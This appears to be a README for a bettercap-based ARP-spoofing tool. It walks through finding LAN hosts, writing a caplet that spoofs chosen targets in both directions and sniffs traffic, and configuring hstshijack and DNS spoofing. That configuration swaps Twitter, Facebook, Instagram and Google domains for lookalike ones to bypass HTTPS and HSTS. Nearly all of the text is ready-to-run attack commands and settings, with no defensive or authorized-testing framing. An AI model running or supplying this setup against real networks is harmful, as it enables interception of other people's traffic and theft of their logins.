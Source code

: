 # ARPSppofer-w-bettercap

## Prerequisutes
1. Make sure you have namp/netdiscover installed (could also use nmap for host scanning).
2. Bettercap should be installed as well.

## Usage
1. Find some hosts to spoof within your LAN.
    a. `bettercap -iface <interface>`
  b. `net.probe on`
  c. `net.show`
  d. Pick a client and exit bettercap.
  e. __Note: Can also use netdiscover or nmap for host scanning.__
2. Create/Edit your spoof caplet (spoof.caplet)
  a. `set arp.spoof.fullplex true`  : Capture both incoming/outgoing traffic. 
  b. `set arp.spoof.targets <target ip/mac>` : Comma-separated list of IPs/MACs to spoof.
  c. `set net.sniff.local true` :  Sniff local (attackbox) traffic as well - needed for bypassing HTTPS.
3. Edit hstshijack config file to bypass specific sites configured with HSTS.
  a. `nano /usr/local/share/bettercap/caplets/hstshijack/hstshijack.cap `
  b. Targets and replacements could look like this… (customize to your liking)
    `
    set hstshijack.targets         twitter.com,*.twitter.com,facebook.com,*.facebook.com,instagram.com,*.instagram.com,google.com,*.google.com, gstatic.com, *.gstatic.com
    set hstshijack.replacements    twiter.com,*.twiter.com,facebook.corn,*.facebook.corn,instagam.com,*.instagam.com,google.corn,*.google.corn,gstatic.corn,*.gstatic.corn
    `
  c. dns.spoof.domains could look like this... (customize to your liking)
    `
    dns.spoof.domains
    set dns.spoof.domains  twiter.com,*.twiter.com,facebook.corn,*.facebook.corn,instagam.com,*.instagam.com,google.corn,*.google.corn,gstatic.corn,*.gstatic.corn
    `
4. Start bettercap with customized caplet.
  a. `bettercap -iface <interface> -caplet <capletfile>`
  b. Example: `bettercap -iface eth0 -caplet spoof.caplet`
5. Enable/Verify hstshijack caplet is enabled.
  a. `hstshijack/hstshijack`
  b. `caplets.show`







